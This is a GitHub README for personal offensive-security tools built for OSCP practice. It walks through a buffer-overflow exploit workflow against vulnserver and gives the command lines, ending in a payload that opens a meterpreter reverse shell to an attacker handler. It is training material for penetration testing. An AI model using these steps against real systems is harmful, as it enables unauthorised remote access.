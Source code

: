 # OffensiveTools
Some offensive tools that I am playing around with

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the cherry on top in this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???

The complete process for attacking vulnserver with this tool looked more like this:

# I sent a buffer of "TRUN ." + 3000 A's, resulting in a crash...
./exploitshadow.py 1 3000 10.0.0.10 9999
# Since that crashed it, I had the tool generate a pattern of 3000 characters and sent that next...
./exploitshadow.py 2 3000 10.0.0.10 9999
# At this point, the EIP register had the hex values 396F4338 inside it, so now I just need to find that offset next...
./exploitshadow.py 5 3000 396F4338
# Now I know that the offset is 2006, because that's what mode 5 gives me as output, so now I sent a buffer with all byte values 0-255...
./exploitshadow.py 3 2006 10.0.0.10 9999
# Keep doing that and using badbytecheck.py to eliminate bad bytes/chars. When you have them all eliminated, and you find a proper jump address, send payload...
./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

----- BadByteCheck.py -----

Furthering the process of automating exploit development, I realize that you can probably do the same thing with tools such as Mona.py, but I enjoy writing my own tools and this is one that I find less annoying to deploy. Once I've sent a buffer with all byte values 0-255, I dump the memory where those values begin from the debugger, and then run this tool against the dump file. Any byte values that I already know are most likely bad are pre-configured within the tool, and it's easy to add more. It skips the "bad" bytes in order when it's checking, and looks for any byte mismatches between the internally generated "allbytes" (0-255) range and the values that were actually dumped from the debugger, reporting any mismatches that can be verified with hexdump. Enjoy!
